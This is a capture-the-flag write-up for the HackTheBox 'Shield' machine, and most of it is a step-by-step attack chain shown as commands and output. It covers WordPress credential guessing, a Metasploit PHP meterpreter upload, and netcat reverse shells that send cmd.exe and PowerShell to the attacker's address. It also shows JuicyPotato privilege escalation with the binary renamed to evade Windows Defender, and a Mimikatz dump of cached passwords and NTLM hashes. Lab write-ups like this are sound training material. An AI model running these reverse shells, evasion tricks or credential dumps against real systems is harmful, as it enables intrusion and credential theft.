

# HackTheBox | Shield
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan against the target.  
**Target:** 10.10.10.29  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Shield]
└─$ nmap -sC -sV 10.10.10.29
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 20:38 EST
Nmap scan report for 10.10.10.29
Host is up (0.028s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.90 seconds
~~~
### Open Ports/Services
80/tcp - HTTP (IIS)  
3306/tcp - MySQL  
### HTTP
Browsing to http://10.10.10.29/ presents us with the default IIS starting page.  
  
### GoBuster
Using **GoBuster** I am able to scan for any sub-directories or files that are hosted on the target server.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Shield]
└─$ gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.29/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/07 20:43:10 Starting gobuster
===============================================================
/wordpress (Status: 301)
===============================================================
2021/01/07 20:43:23 Finished
===============================================================
~~~
The scan reveals a /wordpress directory. I decided to navigate to it and take a look.  
## Foothold
### WordPress
After accessing http://10.10.10.29/wordpress/wp-login.php, I attempted a combination of common usernames and passwords.  
#### Found Credentials
Username: admin  
Password: P@s5w0rd!  
### Meterpreter Shell
Since I have the admin credentials to the WordPress site, I can leverage this through msfconsole and use exploit/unix/webapp/wp_admin_shell_upload to aquire a **meterpreter** shell on the system.  
~~~Bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST tun0
LHOST => tun0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.14.30:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/ClchyWYYFZ/TziaqJWYHJ.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.30:4444 -> 10.10.10.29:50577) at 2021-01-07 20:48:25 -0500
[+] Deleted TziaqJWYHJ.php
[+] Deleted ClchyWYYFZ.php
[!] This exploit may require manual cleanup of '../ClchyWYYFZ' on the target
meterpreter > 
~~~
I'll upgrade to a more stable shell by uploading a netcat binary.  
### Netcat
First I have to lcd to /usr/share/windows-binaries (lcd stands for local change directory) and then navigate to a writeable directory on the server, in this case it's C:/inetpub/wwwroot/wordpress/wp-content/uploads. Then we upload the binary.  
~~~Bash
meterpreter > lcd /usr/share/windows-binaries/
meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload nc.exe
[*] uploading  : nc.exe -> nc.exe
[*] Uploaded -1.00 B of 58.00 KiB (-0.0%): nc.exe -> nc.exe
[*] uploaded   : nc.exe -> nc.exe
~~~
Now I have to start my netcat listener and execute the shell.  
~~~Bash
nc -lvnp 1234
~~~
**Shell execute**  
~~~Bash
meterpreter > execute -f nc.exe -a "-e cmd.exe 10.10.14.30 1234"
Process 2484 created.
~~~
And we have our shell.  
~~~Bash
┌──(jessi㉿teatimesec)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.29] 50578
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\wordpress\wp-content\uploads>
~~~
## PrivEsc
### JuicyPotato
Juicy Potato is a variant of an exploit allowing for service accounts on Windows to escalate to SYSTEM. It does this by leveraging BITS and the SeAssignPrimaryToken or SeImpersonate privilege in a MiTM attack. To exploit this, I need to upload our JP binary and rename it to something else so that it doesn't get picked up by Windows Defender.  
~~~Bash
meterpreter > upload JuicyPotato.exe
[*] uploading  : JuicyPotato.exe -> JuicyPotato.exe
[*] Uploaded -1.00 B of 339.50 KiB (-0.0%): JuicyPotato.exe -> JuicyPotato.exe
[*] uploaded   : JuicyPotato.exe -> JuicyPotato.exe
meterpreter > mv JuicyPotato.exe jsp.exe
~~~
Now I'll create a batch file that will be executed by the exploit, this will return a SYSTEM shell. I'll name it shell.bat.  
~~~Bash
C:\inetpub\wwwroot\wordpress\wp-content\uploads>echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.30 1337 > shell.bat
~~~
### Execute the shell
And now I just need to execute the shell. 
~~~Bash
C:\inetpub\wwwroot\wordpress\wp-content\uploads>jsp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
jsp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
~~~
And over at our netcat listner on port 1337.  
~~~Bash
┌──(jessi㉿teatimesec)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.29] 50678
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> 
~~~
We are now SYSTEM.  
##### root.txt
Located in C:\Users\Administrator\Desktop.  
**6e9a9fdc6f64e410a68b847bb4b404fa**
## Post Exploitation
### Mimikatz
We can upload the [Mimikatz](https://github.com/gentilkiwi/mimikatz) x64 binary onto our target to dump cached passwords.  
~~~Bash
meterpreter > upload mimikatz64.exe
[*] uploading  : mimikatz64.exe -> mimikatz64.exe
[*] Uploaded -1.00 B of 1.25 MiB (0.0%): mimikatz64.exe -> mimikatz64.exe
[*] uploaded   : mimikatz64.exe -> mimikatz64.exe
~~~
And now we execute it and use the **sekurlsa** command to extract logon passwords.  
~~~Bash
PS C:\inetpub\wwwroot\wordpress\wp-content\uploads> ./mimikatz64.exe
./mimikatz64.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2269462 (00000000:0022a116)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 1/6/2021 10:55:03 AM
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 65961 (00000000:000101a9)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/6/2021 9:39:36 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 1/6/2021 9:39:36 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : shield$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 36485 (00000000:00008e85)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 1/6/2021 9:39:35 AM
SID               : 
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 208047 (00000000:00032caf)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 1/6/2021 9:40:53 AM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
        msv :
         [00000003] Primary
         * Username : sandra
         * Domain   : MEGACORP
         * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
         * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
         * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
        tspkg :
        wdigest :
         * Username : sandra
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : sandra
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!
        ssp :
        credman :

Authentication Id : 0 ; 201016 (00000000:00031138)
Session           : Service from 0
User Name         : wordpress
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 1/6/2021 9:40:51 AM
SID               : S-1-5-82-698136220-2753279940-1413493927-70316276-1736946139
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/6/2021 9:39:39 AM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/6/2021 9:39:36 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 65934 (00000000:0001018e)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/6/2021 9:39:36 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 1/6/2021 9:39:35 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : shield$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :
~~~
We found more credentials.  
#### Found Credentials
Username: MEGACORP\sandra  
Password: Password1234!
